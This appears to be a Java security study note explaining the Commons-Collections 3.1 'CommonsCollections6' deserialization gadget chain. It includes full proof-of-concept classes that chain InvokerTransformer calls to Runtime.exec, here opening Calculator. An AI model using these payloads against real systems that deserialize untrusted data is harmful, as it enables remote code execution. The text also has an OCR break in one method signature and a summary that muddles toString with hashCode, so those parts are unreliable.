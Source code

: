 # Java Security Learning-Commons-Collections6 Chain

Author: H3rmesk1t

#Environmental construction
> 1. `JDK` version: JDK1.8u66 (no limit yet)
> 2. `Commons-Collections` version: 3.1

> Use `maven` to build it. First create a `Maven` project without selecting any `Maven` template. The content in `pom.xml` is as follows. Then select the update on the right and let it automatically import the package.

```xml
<?xml version="1.0" encoding="UTF-8"?>
<project xmlns="http://maven.apache.org/POM/4.0.0"
         xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
         xsi:schemaLocation="http://maven.apache.org/POM/4.0.0 http://maven.apache.org/xsd/maven-4.0.0.xsd">
    <modelVersion>4.0.0</modelVersion>

    <groupId>org.example</groupId>
    <artifactId>commons-collections</artifactId>
    <version>1.0-SNAPSHOT</version>

    <dependencies>
        <dependency>
            <groupId>commons-collections</groupId>
            <artifactId>commons-collections</artifactId>
            <version>3.1</version>
        </dependency>
    </dependencies>

</project>
```

# Pre-knowledge
## HashSet
> `HashSet` is an unordered collection of duplicate elements that are not allowed. It is essentially implemented by `HashMap`. Like `HashMap`, it is an array that stores linked lists. The elements in `HashSet` are stored on the key of `HashMap`, and the values ​​in `value` are all unified `private static final Object PRESENT = new Object();`. In the `readObject` method of `HashSet`, the `put` method of its internal `HashMap` is called and the value is placed on the `key`

<img src="./images/17.png" alt="">

# CommonsCollections6 Analysis
> In `CommonsCollections5`, the call to the `TiedMapEntry#toString` method is triggered, and then the `LazyMap#get` is triggered to complete the call in the second half; in `CommonsCollections6`, the call to `TiedMapEntry#getValue` is triggered through `TiedMapEntry#hashCode`, but a point that triggers the `hashcode()` method needs to be found. Therefore, the HashSet()` method in the pre-knowledge is used to trigger the `hashCode()` method.

> In the `HashSet#readObject` method, follow up the `put()` method, enter the `java.util.HashMap` call the `put()` method, then call the `hash()` method, and then call `key.hashCode()`. Here you only need to let `key` be the `TiedMapEntry` object.

<img src="./images/18.png" alt="">

<img src="./images/19.png" alt="">

> However, in actual use, one problem needs to be solved, that is, the problem of triggering command execution when calling the `put` method. P Bull's solution to this is `outerMap.remove("h3rmesk1t");`, which also triggers command execution when deserialization is successfully deserialized.

```java
package CommonsCollections6;

import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.keyvalue.TiedMapEntry;
import org.apache.commons.collections.map.LazyMap;

import java.io.*;
import java.util.HashMap;
import java.util.Map;

/**
 * @Author: H3rmesk1t
 * @Data: 2021/11/30 4:38 pm
 */
public class FakeDemo {

    public static void fakeDemo() throws IOException, ClassNotFoundException {
        Transformer[] transformers = new Transformer[] {
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer("getMethod", new Class[]{String.class, Class[].class}, new Object[]{"getRuntime", null}),
                new InvokerTransformer("invoke", new Class[]{Object.class, Object[].class}, new Object[]{null, null}),
                new InvokerTransformer("exec", new Class[]{String.class}, new Object[]{"open -a /System/Applications/Calculator.app"})
        };
        ChainedTransformer chainedTransformer = new ChainedTransformer(transformers);

        Map hashMap = new HashMap();
        Map map = LazyMap.decorate(hashMap, chainedTransformer);
        TiedMapEntry tiedMapEntry = new TiedMapEntry(map, "h3rmesk1t");
        Map expMap = new HashMap();
        expMap.put(tiedMapEntry, "d1no");
        map.remove("h3rmesk1t");

        try {
            ByteArrayOutputStream byteArrayOutputStream = new ByteArrayOutputStream();
            ObjectOutputStream objectOutputStream = new ObjectOutputStream(byteArrayOutputStream);
            objectOutputStream.writeObject(expMap);
            objectOutputStream.close();

            ByteArrayInputStream byteArrayInputStream = new ByteArrayInputStream(byteArrayOutputStream.toByteArray());
            ObjectInputStream objectInputStream = new ObjectInputStream(byteArrayInputStream);
            objectInputStream.readObject();
            objectInputStream.close();
        } catch (Exception e) {
            e.printStackTrace();
        }
    }

    public static void main(S
Tring[] args) {
        try {
            fakeDemo();
        } catch (Exception e) {
            e.printStackTrace();
        }
    }
}
```

<img src="./images/20.png" alt="">

<img src="./images/21.png" alt="">

## POC
> In order to solve the above problems, when constructing `LazyMap`, first construct a `fakeTransformers` object, and when the `Payload` is finally generated, then use reflection to replace the real `transformers`.

```java
package CommonsCollections6;

import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.keyvalue.TiedMapEntry;
import org.apache.commons.collections.map.LazyMap;

import java.io.ByteArrayInputStream;
import java.io.ByteArrayOutputStream;
import java.io.ObjectInputStream;
import java.io.ObjectOutputStream;
import java.lang.reflect.Field;
import java.util.HashMap;
import java.util.Map;

/**
 * @Author: H3rmesk1t
 * @Data: 2021/11/30 4:29 pm
 */
public class CommonsCollections6Gadget1 {

    public static void CC6() throws IllegalAccessException, NoSuchFieldException {
        Transformer[] fakeTransformers = new Transformer[] {};
        Transformer[] transformers = new Transformer[] {
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer("getMethod", new Class[]{String.class, Class[].class}, new Object[]{"getRuntime", null}),
                new InvokerTransformer("invoke", new Class[]{Object.class, Object[].class}, new Object[]{null, null}),
                new InvokerTransformer("exec", new Class[]{String.class}, new Object[]{"open -a /System/Applications/Calculator.app"})
        };
        ChainedTransformer chainedTransformer = new ChainedTransformer(fakeTransformers);

        Map hashMap = new HashMap();
        Map map = LazyMap.decorate(hashMap, chainedTransformer);
        TiedMapEntry tiedMapEntry = new TiedMapEntry(map, "h3rmesk1t");
        Map expMap = new HashMap();
        expMap.put(tiedMapEntry, "d1no");
        map.remove("h3rmesk1t");
        Field field = ChainedTransformer.class.getDeclaredField("iTransformers");
        field.setAccessible(true);
        field.set(chainedTransformer, transformers);
        //map.clear();

        try {
            ByteArrayOutputStream byteArrayOutputStream = new ByteArrayOutputStream();
            ObjectOutputStream objectOutputStream = new ObjectOutputStream(byteArrayOutputStream);
            objectOutputStream.writeObject(expMap);
            objectOutputStream.close();

            ByteArrayInputStream byteArrayInputStream = new ByteArrayInputStream(byteArrayOutputStream.toByteArray());
            ObjectInputStream objectInputStream = new ObjectInputStream(byteArrayInputStream);
            objectInputStream.readObject();
            objectInputStream.close();
        } catch (Exception e) {
            e.printStackTrace();
        }
    }

    public static void main(String[] args) {
        try {
            CC6();
        } catch (Exception e) {
            e.printStackTrace();
        }
    }
}
```

<img src="./images/22.png" alt="">

# Call chain

```java
HashSet.readObject()/HashMap.readObject()
    HashMap.put()
        HashMap.hash()
            TiedMapEntry.hashCode()
                LazyMap.get()
                    ChainedTransformer.transform()
                        InvokerTransformer.transform()
```

# Summarize
> Deserialize the `toString` method of `TiedMapEntry`, indirectly call the `hashCode` method of `LazyMap`, triggering the subsequent `Transformer` malicious execution chain